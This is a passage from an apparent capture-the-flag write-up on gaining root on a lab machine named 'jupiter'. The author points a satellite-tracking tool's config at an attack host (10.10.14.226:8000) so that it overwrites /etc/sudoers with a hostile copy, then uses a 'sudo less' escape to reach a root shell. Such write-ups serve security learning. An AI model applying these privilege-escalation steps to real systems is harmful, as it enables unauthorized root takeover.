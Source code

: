 ```
# See sudoers(5) for more information on "@include" directives:
@includedir /etc/sudoers.d
```

Now we have to update the `/tmp/config.json` file to use `/etc` as the `tleroot` so that when it runs it overwrites the existing `sudoers` file. I also set the `tlesources` as my attack machine and hosted the edited `sudoers` file on port 8000.

Snippet of updated config:

```json
{
        "tleroot": "/etc/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.14.226:8000/sudoers"
        ],

...SNIP
}

```

#### Using Less for Root

Now we can confirm our `sudo` powers by running `sudo -l`, and then running `sudo less /etc/passwd` (This could be any file, I just chose to use `/etc/passwd` again). Once the `/etc/passwd` file comes up type `!/bin/bash` and we are in a root shell!

```console
jovian@jupiter:~$ sudo -l
User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/bin/less, /usr/local/bin/sattrack
jovian@jupiter:~$ sudo /usr/bin/less /etc/passwd
root@jupiter:/home/jovian# id
uid=0(root) gid=0(root) groups=0(root)

```

Once I got in as root, I also went back and made sure to change the `sudoers` file back to only being able to run `sattrack` for `jovian`.

### Root.txt

Finally, we retrieve the root flag:

```console
root@jupiter:/home/jovian# cat /root/root.txt
dc57f***************************
```
